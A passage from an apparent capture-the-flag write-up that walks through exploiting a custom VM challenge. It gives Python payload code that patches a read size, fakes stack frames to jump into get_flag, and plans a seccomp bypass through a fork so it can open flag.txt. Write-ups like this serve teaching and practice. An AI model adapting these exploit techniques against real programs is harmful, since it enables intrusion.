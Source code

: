 Now let's form an initial payload to be sent, in order to keep this within the desired size instead of doing a normal call instruction and jump I make the jump instead of the return of `get_flag` and then on top of that to reduce the need for more `mov mem[dst], src` instructions which are `9` bytes I use that same value as the size which gets patched into the read from stdin into the ROM.

```py
def initial_payload():
    # Patches stdin read size for the flag from:
    # 0x1e82: 	mov r11, 0x60
    # into
    # 0x1e82: 	mov r11, 0x1e34

    # Payload to get a larger buffer
    # assuming r0 ix 0x8 -- it gets set to 0 from the pervious ret
    payload = b'A' * 0x28

    # Get the address of the rom
    payload += mov_imm(14, 0x02020)
    payload += mov_from_mem(14, 14)

    # address where the size of the read is within the parent
    payload += mov_imm(8, 0x1e83)   
    payload += add(8, 14)

    # Setup a fake stack frame to return into 0x8
    payload += sub(15, 0)
    payload += mov_to_mem(15, 0)

    # Setup a second stack frame to return into get_flag (0x1e34)
    # additionally use this as the same value to be store
    payload += sub(15, 0)
    payload += mov_imm(9, 0x1e34)
    payload += mov_to_mem(15, 9)

    # jump to write_ptr
    payload += jump_imm(0x2417)
    assert len(payload) < 0x60
    return payload
```

Once this is setup we need to send it then send an empty line so that it attempts to exit the program for where this code runs, when it finally executes it will end up back in the `get_flag` loop, so won't actually exit, but this flag will now fetch `0x1e34` bytes

```py
io.sendlineafter(b'Flag', initial_payload())
io.sendlineafter(b'Flag', b'')
```

Now that we have the ability to send a much bigger payload, you might remember the mention of seccomp earlier, the payload that it is setting up limits syscalls only to `read`, `write`, `exit` unfortunately we need to read `flag.txt` which isn't open so we need the ability to call `open`, thankfully the fork doesn't have these same restrictions.

